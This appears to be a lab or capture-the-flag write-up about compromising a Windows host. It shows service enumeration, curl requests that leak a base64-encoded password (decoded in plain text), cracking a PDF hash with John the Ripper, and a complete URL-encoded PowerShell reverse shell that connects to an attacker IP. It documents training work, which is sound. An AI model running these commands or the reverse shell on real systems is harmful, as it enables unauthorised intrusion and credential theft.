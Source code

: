 #Pwned! 
```IP
192.168.242.99
```
# Enumeration
## FTP
FileZilla Server 0.9.60 beta
brute not working
## SMB
guest and blank not working
## RPC
blank nothing
## SNMP
snmpwalk nothing
## HTTP 80
doesnt work apparently

## HTTP 8089
ffuf big.txt nothing

## HTTP 33333
ffuf big.txt nothing
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241209164529.png?raw=true)

# Exploitation

http 8089 request/response
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241209165628.png?raw=true)

IP harcoded. Lets try the same request with target IP
```
curl -i 192.168.164.99:33333/list-running-procs -v
```
```
curl -i 192.168.164.99:33333/list-running-procs -v -X POST
```
```
curl -i 192.168.164.99:33333/list-running-procs -v -X POST -H 'Content-Length: 0'
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210094000.png?raw=true)

```
echo 'Tm93aXNlU2xvb3BUaGVvcnkxMzkK' | base64 -d
```
```
NowiseSloopTheory139
```
```
ariah
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210094421.png?raw=true)
# PrivEsc

## Manual
C:\Users\All Users\Microsoft\UEV\InboxTemplates\RoamingCredentialSettings.xml
cmdkey /list
%SystemRoot%\system32\shell32.dll

we see a ftp directory in / so we get via FTP
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210101346.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210101359.png?raw=true)
```
pdf2john Infrastructure.pdf > pdf.hash
```
```
john --wordlist=/usr/share/wordlists/rockyou.txt pdf.hash
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210101956.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210101942.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210103111.png?raw=true)
We now execute a reverse shell:
```
{% raw %}
http://192.168.164.99/?$LHOST%20=%20%22192.168.45.189%22;%20$LPORT%20=%209001;%20$TCPClient%20=%20New-Object%20Net.Sockets.TCPClient($LHOST,%20$LPORT);%20$NetworkStream%20=%20$TCPClient.GetStream();%20$StreamReader%20=%20New-Object%20IO.StreamReader($NetworkStream);%20$StreamWriter%20=%20New-Object%20IO.StreamWriter($NetworkStream);%20$StreamWriter.AutoFlush%20=%20$true;%20$Buffer%20=%20New-Object%20System.Byte[]%201024;%20while%20($TCPClient.Connected)%20{%20while%20($NetworkStream.DataAvailable)%20{%20$RawData%20=%20$NetworkStream.Read($Buffer,%200,%20$Buffer.Length);%20$Code%20=%20([text.encoding]::UTF8).GetString($Buffer,%200,%20$RawData%20-1)%20};%20if%20($TCPClient.Connected%20-and%20$Code.Length%20-gt%201)%20{%20$Output%20=%20try%20{%20Invoke-Expression%20($Code)%202%3E&1%20}%20catch%20{%20$_%20};%20$StreamWriter.Write(%22$Output`n%22);%20$Code%20=%20$null%20}%20};%20$TCPClient.Close();%20$NetworkStream.Close();%20$StreamReader.Close();%20$StreamWriter.Close()
{% endraw %}
```


![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210104644.png?raw=true)
## Automated

### Peass
### Mimikatz

# Lateral Movement

